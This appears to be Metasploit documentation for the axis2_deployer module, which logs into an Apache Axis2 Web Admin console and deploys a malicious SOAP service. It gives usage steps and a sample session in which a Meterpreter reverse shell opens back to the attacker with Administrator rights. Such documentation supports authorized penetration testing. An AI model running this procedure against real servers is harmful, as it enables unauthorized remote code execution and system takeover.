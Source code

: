 ## Description

This module logs in to an Axis2 Web Admin Module instance using a specific user/pass and uploads and executes commands via deploying a malicious web service by using SOAP.

## Axis2 Web Admin

The Apache Axis2 Web application has three main sections:'Services' lists all the available services deployed in this server, 'Validate' checks the system to see whether all the required libraries are in place and views the system information, and 'Administration' is the Axis2 Web Administration module which is the console for administering the Apache Axis2 installation. The Axis2 Web Administration module provides a way to configure Axis2 dynamically.

**IMPORTANT:** This dynamic configuration will NOT be persistent, i.e., if the servlet container is restarted, then all the dynamic configuration changes will be lost.

## Verification Steps

1. Do: ```use exploit/multi/http/axis2_deployer```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/axis2_deployer
msf exploit(axis2_deployer) > set RHOST 10.10.155.37
RHOST => 10.10.155.37
msf exploit(axis2_deployer) > set RPORT 8080
RPORT => 8080
msf exploit(axis2_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(axis2_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(axis2_deployer) > exploit

[*] Started reverse TCP handler on 10.10.155.39:4444 
[+] http://10.10.155.37:8080/axis2/axis2-admin [Apache-Coyote/1.1] [Axis2 Web Admin Module] successful login 'admin' : 'axis2'
[*] Successfully uploaded
[*] Polling to see if the service is ready
[*] Sending stage (30355 bytes) to 10.10.155.37
[*] Meterpreter session 3 opened (10.10.155.39:4444 -> 10.10.155.37:1750) at 2017-03-26 23:33:19 -0500

[*] NOTE: You will need to delete the web service that was uploaded.

[*] Using meterpreter:
[*] rm "webapps/axis2/WEB-INF/services/mdLFvgMv.jar"

[*] Using the shell:
[*] cd  "webapps/axis2/WEB-INF/services"
[*] del mdLFvgMv.jar


meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 10.10.155.37 - Meterpreter session 3 closed.  Reason: User exit

```
